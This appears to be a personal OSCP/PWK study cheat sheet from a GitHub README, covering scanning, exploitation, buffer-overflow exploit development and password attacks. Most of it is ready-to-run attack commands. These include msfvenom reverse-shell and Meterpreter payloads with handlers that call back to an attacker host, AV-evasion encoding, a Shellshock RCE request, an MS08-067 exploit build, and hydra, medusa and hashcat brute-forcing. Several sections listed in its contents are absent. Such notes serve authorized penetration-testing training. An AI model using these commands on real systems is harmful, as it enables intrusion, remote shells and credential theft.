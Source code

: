 # Offsec

Offsec PWK notes and frecuently used files.

<ol>
  <li><a href="#Scanning">Scanning and Enumeration</a></li>
  <li><a href="#Exploitation">Exploitation</a></li>
  <li><a href="#ExploitDevelopment">Exploit Development</a></li>
  <li><a href="#PasswordAttacks">Password Attacks</a></li>
  <li><a href="#ReverseShells">Reverse Shells</a></li>
  <li><a href="#PrivilegeEscalation">Privilege Escalation</a></li>
  <li><a href="#FileTransfers">File Transfers</a></li>
  <li><a href="#PostExploitation">Scanning and Enumeration</a></li>
  <li><a href="#PortForwarding">Port Forwarding</a></li>
  <li><a href="#WebAttacks">Web Attacks</a></li>
  <li><a href="#LessonsLearned">Lessons Learned</a></li>
</ol>

<br>
<br>

#Target IP: 1.1.1.1
#Local IP: 10.10.10.10 

<div id="Scanning"> <h3>1.Scanning and Enumeration</h3></div>

<h4> NMAP</h4>

nmap++ 1.1.1.1

<h4> SMB</h4>

nbtscan -r 1.1.1.1

enum4linux -USGPoi 1.1.1.1 >> SMB.txt

smbclient -L 1.1.1.1

showmount -e 1.1.1.1

<h4> SMTP </h4>

nmap -p 25 --script smtp-enum-users.nse,smtp-commands.nse 1.1.1.1

<h4> SNMP</h4>

snmpcheck -t 1.1.1.1 >> ENUM-SNMP.txt

snmpwalk -c public 1.1.1.1  -v 2c

onesixtyone -c public.txt -o snmp-onesixtyone.txt -dd 1.1.1.1 

<h4> HTTP</h4>

nikto -o nikto.html -Display V -nolookup -host 1.1.1.1  && firefox nikto.html

Dirbuster: Change to 50 req/s, no recursion, export simple list. 

dirb http://1.1.1.1 /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -l -o dirb.txt

<h4> SSH </h4>

msf > use auxiliary/scanner/ssh/ssh_enumusers

<div id="Exploitation"> <h3>2. Exploitation</h3></div>

<h4>MSF Venom Payload Generation</h4>

msfvenom -p windows/shell_reverse_tcp -f asp -o shell.asp LHOST=10.10.10.10 LPORT=443

use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.10.10
set LPORT 443
run

msfvenom -p windows/meterpreter_reverse_tcp -f exe -o metp.exe -e x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=443

msfconsole

use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set LHOST 10.10.10.10
set LPORT 443
run

<h4>Shellshock RCE</h4>

curl http://1.1.1.1/cgi-bin/admin.cgi -H"User-Agent:() { :; }; /bin/bash -c ifconfig “

<h4>Compiling .exe Files with mingw32</h4>

i586-mingw32msvc-gcc MS08-067.c -o MS08-067.exe  -lrpcrt4 -lws2_32 -lwsock32 -lmpr

<div id="ExploitDevelopment"> <h3>3. Exploit Development</h3></div>

<h4>1. Fuzz</h4>

./fuzzer.py 

<h4>2. Create a unique pattern and locate the offset for EIP </h4>

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 

Debugger: write down value of EIP (e.g. 39694438)

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438

<h4>3. Update skeleton script to match new buffer size, pad with a different char (x42) 4 bytes to overwrite EIP. </h4>

<h4>4. Locate space for shell code (i.e add more “C”s ~400 bytes) 
</h4>

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

<h4>5. Locate bad characters: append to skeleton script right after x42s, Immunity: ESP Follow in Dump </h4>


<h4>6. Find a return address (Typically JMP ESP - FFE4)</h4>

Criteria: 

    1. Does not contain bad characters
    2. Does not use DEP or ASLR 

Using Mona: 

!mona modules        
!mona find -s “\xff\xe4” -m slmfc.dll 
 
<h4>7. Update skeleton script to include Ret Address (little endian) right after the buffer </h4>

<h4>8. Update skeleton script to include NOPs for padding at the beggining of the shellcode</h4>

<h4>9. Generate shellcode and update skeleton script </h4>

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a" 
    
<b> Bypassing AV and FW restrictions </b>

<h4>10. Use staged payloads </h4>

msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"

msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

<h4>11. Use multiple iterations of the encoder </h4>

msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443  -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -i 10 

msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

<h4>12. Use a Reverse HTTPS Meterpreter </h4>

msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443  -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -i 10 

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.10.10
set LPORT 443

<h4>13. Try other ports common ports (53, 80) </h4>

<div id="DictionaryAttacks"> <h3>4. Dictionary Attacks</h3></div>

ncrack -vv --user rax -P wordlist.txt rdp://1.1.1.1

medusa -h 1.1.1.1 -u root -P /usr/share/wordlists/rockyou.txt -e ns -M ssh

hydra -l administrator -P wordlist.txt 1.1.1.1 ssh

hydra 1.1.1.1:80 http-form-post "/PHP/index.php:nickname=^USER^&password=^PASS^:bad password" -l garry -P /usr/share/wordlists/nmap.lst -t 10 -w 30 -o hydra-http-post-attack.txt

<h4> Password Generation with cewl and John </h4>

cewl http://1.1.1.1/index.html >> words.txt

john --wordlist=words.txt --rules --stdout >> wordlist.txt

<h4> Cracking Hashes - Linux </h4>

cat shadow.txt | awk -F':' '{print }' > hashes.txt

hashcat -m 500 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

<h4> Cracking Hashes - Windows </h4>

hashcat -m 1000 -a 0 -o output.txt --remove hashes.txt /usr/share/wordlists/rockyou.txt

